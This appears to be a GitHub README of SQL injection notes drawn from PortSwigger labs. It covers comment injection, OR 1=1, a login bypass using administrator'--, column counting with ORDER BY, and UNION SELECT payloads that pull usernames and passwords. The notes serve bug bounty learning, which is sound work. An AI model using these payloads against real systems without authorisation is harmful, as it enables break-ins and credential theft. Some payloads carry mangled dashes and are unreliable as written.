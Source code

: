 # SQL-Injection_Bug_Bounty
##All taken fron portswigger lab

The application doesn't implement any defenses against SQL injection attacks, so an attacker can construct an attack like:

	https://insecure-website.com/products?category=Gifts'--
This results in the SQL query:

	SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
Going further, an attacker can cause the application to display all the products in any category, including categories that they don't know about:

	https://insecure-website.com/products?category=Gifts'+OR+1=1--
  
	SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
	since 1=1 is always true
Check response:    ‘--      |   #--

**Subverting application logic/Login form:**

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query:

	SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

![image](https://user-images.githubusercontent.com/37367596/192005023-3f13a816-0a13-4f0a-8ff5-cf85222e8604.png)


**Retrieving data from other database tables/Union attack:**

For a UNION query to work, two key requirements must be met:

 1.The individual queries must return the same number of columns.
 
 2.The data types in each column must be compatible between the individual queries.

To carry out an SQL injection UNION attack, you need to ensure that your attack meets these two requirements. This generally involves figuring out

 1.How many columns are being returned from the original query?
 
 2.Which columns returned from the original query are of a suitable data type to hold the results from the injected query?
 
**There are two effective methods to determine how many columns are being returned from the original query.**
**The first method** involves injecting a series of** ORDER BY** clauses and incrementing the specified column index until an error occurs.

' ORDER BY 1--

 ' ORDER BY 2-- 
 
' ORDER BY 3--
etc.
![image](https://user-images.githubusercontent.com/37367596/192006415-207e60bb-4977-4895-9a57-43fed4f6c250.png)


The application might actually return the **database error** in its HTTP response, or it might return a **generic error**, or simply return **no results**

**The second method** involves submitting a series of UNION SELECT payloads specifying a different number of null values

' UNION SELECT NULL—

 ' UNION SELECT NULL,NULL—
 
 ' UNION SELECT NULL,NULL,NULL– 

' UNION SELECT NULL FROM DUAL--     (oracale database)

**Finding columns with a useful data type(string/int/or other types) in an SQL injection UNION attack**

' UNION SELECT NULL,NULL,NULL,'a'—

' UNION SELECT NULL,'a',NULL,NULL—

' UNION SELECT username, password(coloumns) FROM users– (table)

![image](https://user-images.githubusercontent.com/37367596/192007589-7f01ddc9-e5a5-40a5-8004-c2c116e0ca55.png)

![image](https://user-images.githubusercontent.com/37367596/192009263-e2ee5bbc-e882-44d2-835a-b46c1b5ad3aa.png)




